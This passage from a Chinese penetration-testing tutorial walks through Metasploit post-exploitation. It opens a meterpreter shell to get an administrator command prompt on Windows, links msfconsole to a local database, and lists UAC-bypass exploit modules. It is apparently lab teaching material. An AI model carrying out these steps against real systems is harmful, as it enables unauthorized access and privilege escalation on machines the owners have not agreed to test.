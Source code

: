 起飞，此时再输入shell，起飞，你将获得具有管理员权限的命令提示符。

```
meterpreter > shell
Process 3676 created.
Channel 1 created.
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����

C:\Windows\system32>

```

不过有乱码输入`chcp 65001`解决控制台乱码

之后我们退出这个界面，返回msfconsole

# 内网主机发现---需要配置路由

## 配置数据库与msf联动加强效率

具体参考这篇文章[msf连接数据库](https://blog.csdn.net/qq_34444097/article/details/79679640)

接下来连接

```
msf6 > db_status 
[*] postgresql selected, no connection
msf6 > db_connect msf:admin@127.0.0.1/msf
Connected to Postgres data service: 127.0.0.1/msf
msf6 > db_status 
[*] Connected to msf. Connection type: postgresql. Connection name: OsNJI373.
```

之后明显速度快了很多

```
msf6 exploit(multi/handler) > search bypassuac

Matching Modules
================

   #   Name                                                   Disclosure Date  Rank       Check  Description
   -   ----                                                   ---------------  ----       -----  -----------
   0   exploit/windows/local/bypassuac                        2010-12-31       excellent  No     Windows Escalate UAC Protection Bypass
   1   exploit/windows/local/bypassuac_comhijack              1900-01-01       excellent  Yes    Windows Escalate UAC Protection Bypass (Via COM Handler Hijack)
   2   exploit/windows/local/bypassuac_dotnet_profiler        2017-03-17       excellent  Yes    Windows Escalate UAC Protection Bypass (Via dot net profiler)
```
